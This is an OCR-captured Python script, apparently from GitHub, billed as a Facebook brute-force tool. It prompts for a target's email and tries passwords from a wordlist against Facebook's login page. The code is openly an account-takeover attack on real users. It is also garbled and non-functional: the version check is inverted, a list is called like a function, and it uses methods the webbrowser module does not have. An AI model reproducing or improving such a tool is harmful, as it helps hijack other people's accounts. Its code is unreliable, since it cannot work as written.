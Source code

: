 from http.client import responses
import sys
import requests
from ast import Break, Try
import webbrowser
import time

if sys.version_info[0] !=2: 
	print('''--------------------------------------
	REQUIRED PYTHON 3
	use: python3 fb.py
--------------------------------------
			''')
	Break
print('\n-------- follow on FB @CYBERHACKS6--------\n')

post_url='https://www.facebook.com/login.php'
headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36',
}


print('\n---------- Welcome To Facebook BruteForce ----------\n')
file=open('passwords.txt','r')

email = input("input Email of target:")
print ("\nTarget Email ID : ",email+"")
content = file.readlines()
passboy = content("\n")
print("[*]Fixating pass%s"%content)

response = webbrowser.open(post_url)
    
if responses: code = 200
webbrowser.select_form(nr=0)
y = webbrowser.select_form(nr=0)
z = webbrowser.select_form(nr=1)
webbrowser.set_value[y] = email
webbrowser.set_value[z] = passboy
responses=webbrowser.submit()
responses_data=response.read()
'find friends' in responses_data or 'two factor authentication' in responses_data or 'security code' in  responses_data;
print("[*]Found:%s"%content)

sys.exit
